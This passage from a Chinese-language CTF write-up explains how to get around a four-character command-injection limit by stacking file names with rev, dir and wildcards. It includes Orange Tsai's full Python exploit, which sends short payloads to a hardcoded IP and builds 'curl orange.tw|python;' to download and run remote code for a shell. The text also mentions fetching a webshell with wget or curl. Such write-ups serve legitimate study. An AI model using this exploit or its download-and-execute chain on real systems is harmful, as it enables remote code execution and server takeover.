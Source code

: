 所以如果我们需要运用`-`字符的话，他会排在最前面，这里就比较坑了。所以我们需要想个办法把`-t`置于后面。

这里我们可以使用`t-`这种逆序的模式把`t`放到前面来，就可以比较正常的排序了。

逆序的命令我们可以用`rev`来实现，另外我们还需要一个字母比较靠前的命令来展示当前目录，我们可以采用`dir`来展示当前目录，同时`d`字母也比较靠前，不要像`ls`特别考虑排序的问题。所以我们大概可以通过这么一个形式去构造`ls -t>g`

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fymxkbytn4j20pg0h41cd.jpg)

这里可能有几个让大家比较疑惑的地方，比如为什么是`>ht-`，个人理解是因为`ls`逆序是`sl`，`s`是排在`t`前的，如果不加`h`，`t-`会在`sl`之后，而且`ls -th`与`ls -t`效果是一样的，然后我们再找一个`h`之前的字母做输出文件就可以了。还有一个地方就是`*v>x`，之前我们讲过了通配符以及`*`的作用，这里`*v`就相当于`$(dir *v)>x`，`dir *v`返回的就是结尾为`v`的文件，这里就是`rev`与`v`两个文件，如果只有相当于先把`v`文件内容进行逆序，而后再输入到`x`文件，这样整个`ls -t>g`的命令拼凑就完成了，接着方法就有很多种了，比较简单的就是直接`wget`或者`curl`一个`webshell`到服务器上就好了，就不再赘述了。

再给一个`Orange`的`exp`

```python
import requests
from time import sleep
from urllib import quote

payload = [
    # generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',

    # generate "curl orange.tw|python;"
    '>\;\\', 
    '>on\\', 
    '>th\\', 
    '>py\\', 
    '>\|\\', 
    '>tw\\',
    '>e.\\', 
    '>ng\\', 
    '>ra\\', 
    '>o\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 

    # got shell
    'sh x', 
    'sh g', 
]


r = requests.get('http://52.197.41.31/?reset=1')
for i in payload:
    assert len(i) <= 4
    r = requests.get('http://52.197.41.31/?cmd=' + quote(i) )
    print i
    sleep(0.1)
```
